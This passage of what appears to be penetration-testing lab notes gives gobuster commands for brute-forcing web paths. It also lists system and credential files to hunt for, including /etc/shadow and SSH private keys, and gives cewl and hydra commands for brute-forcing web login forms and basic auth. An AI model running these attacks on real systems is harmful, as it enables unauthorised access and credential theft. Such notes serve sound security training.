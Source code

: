 ```shell
gobuster dir -p /home/kali/offsec/upload/gobuster/L1.txt -qw /home/kali/offsec/upload/gobuster/linux_files.txt -t 25 -s "200,301,304,403" --status-codes-blacklist "" -u 'http://192.168.231.141'  

gobuster dir -p /home/kali/offsec/upload/gobuster/L3.txt -qw /home/kali/offsec/upload/gobuster/windows_files.txt -t 25 -s "200,301,304,403" --status-codes-blacklist "" -u 'http://192.168.231.141'  

#look for
- `/etc/passwd`
- `/etc/shadow` if permissions allow
- `C:\Windows\System32\drivers\etc\hosts` - good to test traversal vuln
- `.ssh/id_rsa` files under user home dir (after seeing in `/etc/passwd`)
  - also `id_dsa`, `id_ecdsa`, and `id_ed25519`
  - Here we leverage the usernames we found in passwd
```

### Web Credential Bruteforcing

Get a wordlist and emails from the site using `cewl`:

```sh
# save emails to file, min word length = 5
cewl -e --email_file emails.txt -m 5 -w cewl.txt http://VICTIM_IP
```

Hydra is great for hitting web login forms. To use it, first capture a failed login using Burp. You need that to see how it submits the login request and to see how to identify a failed login.

Web Forms (POST request):

```bash

# '-l admin' means use only the 'admin' username. '-L userlist.txt' uses many usernames
# change to https-web-form for port 443
hydra -f -l admin -P /usr/share/wordlists/rockyou.txt $VICTIM_IP http-post-form "/login:username=^USER^&password=^PASS^:Data error" -t 64

hydra -V -f -L sql.txt -P sql.txt $VICTIM_IP http-post-form "/login:username=^USER^&password=^PASS^:Data error" -t 64

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.208.121 http-post-form '/login.aspx:__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2RkL7UlJbQLRVEHtdBd2cHsgmzduFNoWHiXrVGu0cD9%2Bjc%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAATHRQHJ3fxgbABeqXLtYnwsG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6vZhOhYNI15ms6KxT68HdWaGxCBK67o39S7upoRJaNfM%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=^USER^&ctl00%24ContentPlaceHolder1%24PasswordTextBox=^PASS^&ctl00%24ContentPlaceHolder1%24LoginButton=Login:Invalid' -t 64



```

HTTP BasicAuth (GET request):

```bash
# hydra http basic auth brute force
# Use https-get for https
# '-u' loops users before moving onto next password
hydra -u -L users.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt "http-get://$VICTIM_IP/loginpage:A=BASIC"
```

